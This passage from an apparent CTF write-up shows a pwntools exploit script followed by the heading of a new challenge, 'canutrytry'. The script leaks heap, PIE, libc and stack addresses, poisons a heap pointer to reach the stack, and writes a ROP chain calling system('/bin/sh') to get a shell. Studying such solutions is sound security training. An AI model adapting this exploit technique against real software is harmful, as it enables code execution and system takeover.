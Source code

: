 ```python
	io.send(content)
	    
#gdb.attach(io,"b *$rebase(0x179F)")
# leak pie & heap
user("MANAGER_visit",0)
manager_user_read()
io.recv(8)
heap_addr=u64(io.recv(6).ljust(8,b'\x00'))#-0x1f30
io.recv(2)
pie=u64(io.recv(6).ljust(8,b"\x00"))-0x41a0
logv("heap_addr",hex(heap_addr))
logv("pie",hex(pie))

# heap1-> next = manage_physic[2]
manager_user_write(p64(1)+p64(heap_addr)+p64(heap_addr-8))

# leak libc
manager_write(p64(pie+elf.got["puts"]))
manager_user_read()
puts=u64(io.recv(6).ljust(8,b"\x00"))
libc_base=puts-libc.sym["puts"]
logv("libc_base",hex(libc_base))
system=libc_base+libc.sym["system"]
bin_sh=libc_base+next(libc.search("/bin/sh\x00"))
pop_rdi=libc_base+pop_rdi
ret=libc_base+ret
# leak stack
manager_write(p64(libc_base+libc.sym["environ"]))
manager_user_read()
stack=u64(io.recv(6).ljust(8,b'\x00'))-0x150

# heap1->next=stack
manager_write(p64(stack))
payload=p64(pop_rdi)+p64(bin_sh)+p64(ret)+p64(system)
manager_user_write(payload)

#user("USER_write",0)
#io.sendlineafter("user_logs\n",str(1))
io.interactive()

```



## canutrytry

### 查看沙箱

![image-20250805082927143](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250805082927143.png)

